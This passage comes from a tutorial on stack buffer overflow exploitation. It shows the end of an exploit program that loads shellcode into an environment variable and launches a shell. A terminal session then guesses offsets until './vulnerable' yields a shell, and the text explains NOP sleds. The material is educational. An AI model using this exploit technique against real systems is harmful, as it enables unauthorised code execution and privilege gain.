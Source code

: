   buff[bsize - 1] = '\0';

  memcpy(buff,"EGG=",4);
  putenv(buff);
  system("/bin/bash");
}
------------------------------------------------------------------------------

   Now we can try to guess what the buffer and offset should be:

------------------------------------------------------------------------------
[aleph1]$ ./exploit2 500
Using address: 0xbffffdb4
[aleph1]$ ./vulnerable $EGG
[aleph1]$ exit
[aleph1]$ ./exploit2 600
Using address: 0xbffffdb4
[aleph1]$ ./vulnerable $EGG
Illegal instruction
[aleph1]$ exit
[aleph1]$ ./exploit2 600 100
Using address: 0xbffffd4c
[aleph1]$ ./vulnerable $EGG
Segmentation fault
[aleph1]$ exit
[aleph1]$ ./exploit2 600 200
Using address: 0xbffffce8
[aleph1]$ ./vulnerable $EGG
Segmentation fault
[aleph1]$ exit
.
.
.
[aleph1]$ ./exploit2 600 1564
Using address: 0xbffff794
[aleph1]$ ./vulnerable $EGG
$
------------------------------------------------------------------------------

   As we can see this is not an efficient process.  Trying to guess the
offset even while knowing where the beginning of the stack lives is nearly
impossible.  We would need at best a hundred tries, and at worst a couple of
thousand.  The problem is we need to guess *exactly* where the address of our 
code will start.  If we are off by one byte more or less we will just get a
segmentation violation or a invalid instruction.  One way to increase our
chances is to pad the front of our overflow buffer with NOP instructions.
Almost all processors have a NOP instruction that performs a null operation.
It is usually used to delay execution for purposes of timing.  We will take
advantage of it and fill half of our overflow buffer with them.  We will place
our shellcode at the center, and then follow it with the return addresses. If
we are lucky and the return address points anywhere in the string of NOPs,
they will just get executed until they reach our code.  In the Intel
architecture the NOP instruction is one byte long and it translates to 0x90
in machine code.  Assuming the stack starts at address 0xFF, that S stands for
shell code, and that N stands for a NOP instruction the new stack would look
like this:
